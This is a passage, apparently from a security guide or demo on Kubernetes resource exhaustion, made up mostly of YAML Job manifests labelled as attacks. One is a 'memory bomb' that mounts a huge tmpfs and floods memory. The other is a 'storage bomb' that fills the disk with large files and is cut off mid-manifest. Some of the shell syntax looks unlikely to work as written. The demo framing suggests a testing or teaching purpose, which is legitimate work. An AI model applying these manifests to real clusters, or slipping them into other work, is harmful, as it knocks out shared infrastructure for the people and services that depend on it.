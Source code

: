 ```yaml
---
# Alternative memory attack using shell
apiVersion: batch/v1
kind: Job
metadata:
  name: shell-memory-bomb
  namespace: resource-attack-demo
spec:
  template:
    spec:
      restartPolicy: Never
      containers:
      - name: shell-bomb
        image: alpine:latest
        command: ["/bin/sh"]
        args:
        - -c
        - |
          echo "Shell-based memory bomb attack"
          
          # Create large files in memory
          mount -t tmpfs -o size=100g tmpfs /tmp
          
          # Fill memory with large files
          for i in {1..1000}; do
            dd if=/dev/zero of=/tmp/bigfile$i bs=1M count=100 &
          done
          
          # Alternative: Use /dev/shm
          for i in {1..100}; do
            head -c 1G </dev/urandom >/dev/shm/memfile$i &
          done
          
          wait
```

### Scenario 3: Storage Exhaustion Attack

#### Disk Space Bomb
```yaml
# Storage exhaustion attack
apiVersion: batch/v1
kind: Job
metadata:
  name: storage-bomb-attack
  namespace: resource-attack-demo
spec:
  template:
    spec:
      restartPolicy: Never
      containers:
      - name: storage-bomb
        image: alpine:latest
        command: ["/bin/sh"]
        args:
        - -c
        - |
          echo "Starting storage exhaustion attack..."
          
          # Method 1: Fill disk with large files
          for i in {1..1000}; do
            dd if=/dev/zero of=/tmp/bigfile$i bs=1M count=1000 2>/dev/null &
          done
```
